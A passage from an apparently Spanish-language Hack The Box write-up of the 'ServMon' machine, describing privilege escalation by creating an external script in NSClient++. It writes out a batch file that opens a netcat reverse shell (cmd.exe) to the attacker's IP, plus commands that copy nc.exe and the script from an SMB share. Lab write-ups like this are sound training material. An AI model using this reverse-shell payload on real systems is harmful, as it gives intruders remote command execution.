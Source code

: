 - Debemos crear un script bajo **Settings > External Scripts > Scripts**

![""](/assets/images/htb-servmon/servmon-web6.png)

- Vamos a transferior el archivo `nc.exe` y necesitamos crear un archivo de extensión bat que contenga lo siguiente. Ambos archivos los pondremos en la ruta `C:\Temp\`:

```bat
@echo off
C:\Temp\nc.exe 10.10.14.27 443 -e cmd.exe
```

```bash
nadine@SERVMON C:\Temp>copy \\10.10.14.27\smbFolder\privesc.bat privesc.bat
        1 file(s) copied.

nadine@SERVMON C:\Temp>copy \\10.10.14.27\smbFolder\nc.exe nc.exe
        1 file(s) copied.

nadine@SERVMON C:\Temp>
nadine@SERVMON C:\Temp>dir
 Volume in drive C has no label.
 Volume Serial Number is DC93-6115

 Directory of C:\Temp

16/01/2022  06:05    <DIR>          .
16/01/2022  06:05    <DIR>          ..
16/01/2022  05:05            28,160 nc.exe
16/01/2022  04:29                52 privesc.bat
               2 File(s)         28,212 bytes
               2 Dir(s)   6,099,292,160 bytes free

nadine@SERVMON C:\Temp>
```